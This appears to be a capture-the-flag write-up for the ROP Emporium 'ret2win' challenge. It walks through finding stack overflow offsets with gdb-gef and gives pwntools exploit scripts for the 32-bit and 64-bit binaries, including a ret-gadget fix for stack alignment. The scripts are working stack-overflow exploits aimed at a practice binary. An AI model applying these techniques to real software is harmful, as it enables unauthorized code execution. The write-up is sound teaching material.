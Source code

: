 # ret2win
`64bit binary` `32bit binary` `ret2win`
<br>
<br>

## 32bit Binary (x86_64)
Let's start by listing the function in the binary using gef with the command `info fun`.

Image

Next step is finding the offset first using gdb with gef, we can just simply do `pattern create` then run the binary and paste the pattern created by gef as the input. It will return to us a `segmentation fault` which mean we successfully overflow the binary, now we are going to search for the `eip` offset by doing `pattern offset $eip`

image

Once we know the offset, which is 44, we are going to make the final script to jump to the win. the final script would look like this.

```python
from pwn import *

binary = './ret2win32'
elf = context.binary = ELF(binary)

p = process(binary)

p.recv()

payload = b'a'*44
payload+= p32(elf.sym['ret2win'])

p.sendline(payload)
p.interactive()
```

And we got the flag

```tmux
[*] '/ROPemporium/ret2win/32bit/ret2win32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './ret2win32': pid 2559
[*] Switching to interactive mode
> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$ 
```


## 64bit Binary (x86_64)
We are not going to repeat the first step like in the 32bit writeup, because the functions are the exact same, it just has different arch. We are going to jump to step 2, finding the offset using gdb-gef. The only difference here is, we are not going to work with the `eip` since it's 32 bit register, but we are going to work with `rip` and `rsp`. In 64 bit if we did an overflow, we want to look for the `rsp` since its top also point right before the `rip`, to put it more simple, if we manage to overflow it to `old RBP` we can rewrtie the `RIP (Instruction Pointer)`, it looks like this.
```
=========================
|          RIP          |
=========================  <- Offset, that allow us to write on the RIP
|       OLD RBP         |  
=========================
|                       |
|          RSP          |
|                       |
=========================

```
Back to finding the offset, we can use the same command but the pattern we want to search is `pattern search $rsp`. It looks like we found it at 40.

Image

Before making the full payload, we need to find a `return gadget (ret)`, why? In 64 bit binary, before a `call` instruction is executed the stack need to be 16-byte aligned, else it will cause an error because the stack is not aligned. This can be avoided with 2 methods, first we can add an extra `ret` before the `call / jump`. Second we can skip the `push rbp` and jump to `mov rbp,rsp` instruction in that function, for the second method, we can use this `elf.sym['ret2win]+1` to tell the address we used is the +1 after `push rbp`. Worry not, in this write-up I provide you both the solution.

#### Solution 1 : using ret gadget
To get the `ret` gadget, we can use `ROPgadget` with the command 

```bash
ROPgadget --binary ret2win > output.txt
```

after that you can search in the `ret` gadget in the output.txt, the gadget will be this one `0x000000000040053e : ret`

```python
from pwn import *

binary = './ret2win'
elf = context.binary = ELF(binary)

p = process(binary)

payload = b'a'*40
payload+= p64(0x000000000040053e) #ret
payload+= p64(elf.sym['ret2win'])

p.sendline(payload)
p.interactive()
```

#### Solution 2 : using the [push rbp]+1 (mov rbp,rsp)
In the second solution, you just need to remove the `ret` gadget from the `solution 1` and put a `+1` after geting the `ret2win function address` 

```python
from pwn import *

binary = './ret2win'
elf = context.binary = ELF(binary)

p = process(binary)

payload = b'a'*40
payload+= p64(elf.sym['ret2win']+1)

p.sendline(payload)
p.interactive()
```

Either way we will get the flag
```bash
[*] '/ROPemporium/ret2win/64bit/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './ret2win': pid 5686
[*] Switching to interactive mode
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$
```